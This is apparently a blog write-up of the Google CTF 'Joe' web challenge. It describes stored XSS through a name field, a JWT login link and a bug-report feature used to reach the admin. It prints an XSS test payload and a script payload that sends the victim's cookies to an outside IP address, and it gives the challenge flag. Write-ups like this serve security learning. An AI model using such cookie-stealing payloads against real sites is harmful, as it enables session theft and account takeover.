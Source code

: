 ```yaml
---
published: true
layout: post
comments: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_admin_login.png)




As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:



```https://joe.web.ctfcompetition.com/login?id_token=<User-JWT-Token> ``` 



![Screenshot from 2017-07-03 15-57-08.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-57-08.png)




**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

```<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");//</script>```


![selfxss.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/selfxss.png)



As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.



![joe_url_too_big.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_url_too_big.png)



So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.



![Screenshot from 2017-07-03 15-59-36.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-59-36.png)



Now all i needed is to check the access log of apache that is running on my VPS.


![joe_flag.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_flag.png)



And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
